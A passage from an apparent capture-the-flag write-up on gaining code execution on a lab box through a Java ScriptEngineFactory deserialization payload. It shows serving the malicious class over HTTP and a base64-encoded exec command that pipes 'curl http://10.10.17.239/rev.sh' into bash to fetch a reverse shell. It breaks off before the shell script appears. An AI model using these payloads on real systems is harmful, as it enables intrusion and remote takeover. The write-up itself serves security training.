 Now that that's out of the way, make the `javax.script.ScriptEngineFactory` file inside of `META-INF/services/`. The contents should just be the name of your package and the function inside of it in the format of `packageName.functionName`. In my case the contents of this file will just be `sp1icersploit.sp1icer`. If everything went as desired, we should have the following structure:

```
+-- sp1icersploit
|   +-- sp1icer.java
|   +-- sp1icer.class
+-- META-INF
|   +-- services
|   |   +-- javax.script.ScriptEngineFactory
```

Serve up a webserver in the root with `python3 -m http.server 80`. In a new tmux pane _also_ make sure to start TCPDump like so: `sudo tcpdump -i tun0 icmp`. Re-submit the same PoC payload from earlier and you should see the following series of requests:

![The victim server grabbing our payloads off of our webserver.](/assets/images/ophiuchi/rce_requests.png)

And with luck on our side, the sweet sweet [sound of packets hitting our interface](https://youtu.be/u9Dg-g7t2l4?t=101):

![The victim server executing our code and ping'ing our machine.](/assets/images/ophiuchi/rce_ping.png)

If you're anything like me, you probably thought "all right! We've got code execution, now let's just pop the PentestMonkey Java reverse shell in there!" Unfortunately, this code has other plans like jacking up our revshell attempts. It took me a fair bit, but I _eventually_ remembered this [fantastic payload conversion site by Jackson_T](http://jackson-t.ca/runtime-exec-payloads.html). The TL;DR on why this site exists is that pipe redirection in bash really gets messed up in a Java `exec()` call, so we need to convert it to something a bit more palatable since Java is picky. We'll use this as a jumping off point to have Java fetch a bash script from us so we can just edit that instead of the Java payload over and over. Doing that:

* Throw `curl http://10.10.17.239/rev.sh | bash` (subbing out your IP) into the Jackson_T converter
* Edit `sp1icer.java` with `Runtime.getRuntime().exec("bash -c {echo,Y3VybCBodHRwOi8vMTAuMTAuMTcuMjM5L3Jldi5zaCB8IGJhc2g=}|{base64,-d}|{bash,-i}");` as the payload (remember to substitute YOUR Jackson_T payload here)
* Re-compile: `javac sp1icer.java`

Just like that, we have a payload that will try to `curl` our rev.sh. I created a `rev.sh` with the following:
